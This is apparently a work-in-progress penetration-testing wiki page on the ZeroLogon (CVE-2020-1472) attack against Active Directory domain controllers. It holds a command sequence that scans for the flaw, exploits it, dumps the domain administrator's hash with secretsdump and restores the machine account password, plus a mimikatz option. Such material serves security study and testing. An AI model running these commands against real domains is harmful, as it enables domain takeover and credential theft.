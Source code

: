 # 🛠️ ZeroLogon

{% hint style="danger" %}
**This is a work-in-progress**. It's indicated with the 🛠️ emoji in the page name or in the category name
{% endhint %}

## Theory

This attack exploits an insecure customized cryptographic protocol used in the NetLogon Remote Protocol. It allows attackers to change the password of the domain controller computer account, hence giving those attackers domain admin privileges.

## Practice

This exploit changes the NT hash of the domain controller computer account in the Active Directory, but not in the local SAM database, hence creating some issues in Active Directory domains. In order to prevent denial of service, attackers can exploit the CVE, find the NT hash of the domain controller machine account before it was changed, and set it back in the AD.

```bash
# Scan for the vulnerability (https://github.com/SecuraBV/CVE-2020-1472)
zerologon-scan $DC_name $DC_IP_address

# Exploit the vulnerability: set the NT hash to \x00*8 (https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py)
zerologon-exploit $DC_name $DC_IP_address

# Obtain de Domain Admin's NT hash
secretsdump -no-pass 'BREAKING.BAD/DC01$'@dc01.breaking.bad

# Obtain de machine account hex encoded password
secretsdump -hashes :a88baa3fdc8f581ee0fb05d7054d43e4 BREAKING.BAD/Administrator@dc01.breaking.bad

# Restore the machine account password (https://github.com/dirkjanm/CVE-2020-1472/blob/master/restorepassword.py)
zerologon-restore breaking/dc01@dc01 -target-ip 192.168.56.101 -hexpass 69762...6945d


# (alternate option mimikatz) Change the NT hash of the domain controller machine account in the AD back to its original value
lsadump::changentlm /server:'DC.DOMAIN'  /user:'DC_name$' /oldntlm:31d6cfe0d16ae931b73c59d7e0c089c0 /newntlm:<old nt hash>
```



## References

{% embed url="https://www.secura.com/blog/zero-logon" caption="" %}

{% embed url="https://github.com/dirkjanm/CVE-2020-1472" %}



